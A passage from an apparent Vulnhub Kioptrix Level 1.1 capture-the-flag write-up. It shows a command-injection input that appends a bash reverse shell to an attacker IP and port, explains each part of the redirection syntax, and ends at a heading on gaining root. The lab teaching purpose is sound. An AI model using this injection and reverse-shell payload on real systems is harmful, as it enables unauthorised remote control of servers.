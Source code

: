 
2. Inject a Command To make a Connection to Attacker
: 
```text
10.174.145.52; bash -i >& /dev/tcp/10.174.145.52/1234 0>&1
```
![ci](/posts/Vlunhub/100Days/Day02_Kioptrix_Level_1_1/cireverseshell.png)

Here,
  - `bash -i` : Makes a Interactive Shell (It is Designed to read commands from and write to terminal)
  - `>& /dev/tcp/< Atacker Ip >/ < port > `
    - `>` : Redirection Operator
    - `&` : signifies (Redirection apply both `stdout (1)` and `stderror (2)`)
    - `/de/tcp/ip/port` : special part that Bash interprets as Network Socket, It open a TCP connection to `ip` and `port`
    - the outpur and errors form bash process are sent over the network connection
  - `0>&1` : redirect `stdin` of Bash process to the Same place as `stdout`
    - `0` : stdin
    - `>` : Redirection operator
    - `&1` : duplicate File descriptor 1 (stdout)

![connection sucess](/posts/Vlunhub/100Days/Day02_Kioptrix_Level_1_1/reseverseshellAttackerSucess.png)

#### Step 3.4: Exploitation For Root Access

Gathering System Information For Find Exploits
